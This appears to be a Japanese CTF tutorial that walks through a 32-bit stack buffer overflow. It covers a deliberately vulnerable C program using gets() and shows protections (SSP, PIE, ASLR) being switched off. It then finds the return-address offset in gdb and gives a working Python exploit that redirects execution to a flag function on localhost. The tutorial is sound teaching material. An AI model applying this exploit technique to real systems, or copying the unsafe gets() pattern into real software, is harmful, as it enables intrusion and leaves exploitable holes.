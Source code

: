 # PWNオーバーフロー入門: 関数の戻り番地を書き換える(SSP、ASLR、PIE無効)

## PWN対象のコード

```c:overflow02.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag()
{
  puts("flag is HANDAI_CTF");
  fflush(stdout);
//  sleep(1);
}

void saru()
{
  char buf[16];

  gets(buf);
}

int main(){
  saru();

  return 0;
}
```

## PWN対象のコードをコンパイル

```bash-statement
saru@lucifen:~/pwn002$ gcc -m32 -no-pie -fno-stack-protector overflow02.c -o overflow02
overflow02.c: In function ‘saru’:
overflow02.c:16:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccNHFUW1.o: In function `saru':
overflow02.c:(.text+0x59): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn002$
```
-m32を付けて32bitでコンパイル。

コンパイルできない場合は64bit環境で32bitのELFをコンパイルできない環境にある可能性があるのでgcc-multilibをインストール。

```bash-statement
$ sudo apt-get install gcc-multilib
```
-no-pieでPIEを無効化。

-fno-stack-protectorでSSPを無効化。

さらに

```bash-statement
$ sudo sysctl -w kernel.randomize_va_space=0
```

でASLRを無効化。
再起動の必要は無い。

## リターンアドレスを調べる

gdbで簡単に調べられる。

```bash-statement
saru@lucifen:~/pwn002$ gdb ./overflow02                                             GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./overflow02...(no debugging symbols found)...done.
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x80484a6 <flag>
gdb-peda$ q
saru@lucifen:~/pwn002$ 
```

つまり0x080484a6。

## 書き換えるリターンアドレスの場所を調べる

startした後niでずっと進めてgetsで読み込みになった後「ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg」を入力してenter。

```bash-statement
[----------------------------------registers-----------------------------------]
EAX: 0xffffd4c0 ("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg")
EBX: 0x58575655 ('UVWX')
ECX: 0xf7fc25c0 --> 0xfbad2288
EDX: 0xf7fc389c --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x62615a59 ('YZab')
ESP: 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
EIP: 0x66656463 ('cdef')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x66656463
[------------------------------------stack-------------------------------------]
0000| 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
0004| 0xffffd4e4 --> 0xffffd500 --> 0x1
0008| 0xffffd4e8 --> 0x0
0012| 0xffffd4ec --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd4f0 --> 0xf7fc2000 --> 0x1d4d6c
0020| 0xffffd4f4 --> 0xf7fc2000 --> 0x1d4d6c
0024| 0xffffd4f8 --> 0x0
0028| 0xffffd4fc --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x66656463 in ?? ()
gdb-peda$
```

書き換えに成功してリターンアドレスが0x66656463になったことで落ちている。
つまり文字列で言うと「cdef」に書き換えられている。
つまり29～32文字目で書き換えられる。

## exploitなコード

```python:exploit02.py
import socket
import time



def main():
    buf = b'A' * 28 
    buf += b'\xa6\x84\x04\x08'
    buf += b'\n'
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)
    s = sock.recv(100)
    print(s.decode(errors='replace'))



if __name__ == "__main__":
    main()
```

28文字Aを送った後に0xa6840408を送り付ける。

## 実行結果

```bash-statement
saru@lucifen:~/pwn002$ python exploit02.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x84\x04\x08\n'
flag is HANDAI_CTF

saru@lucifen:~/pwn002$
```
というわけで成功！
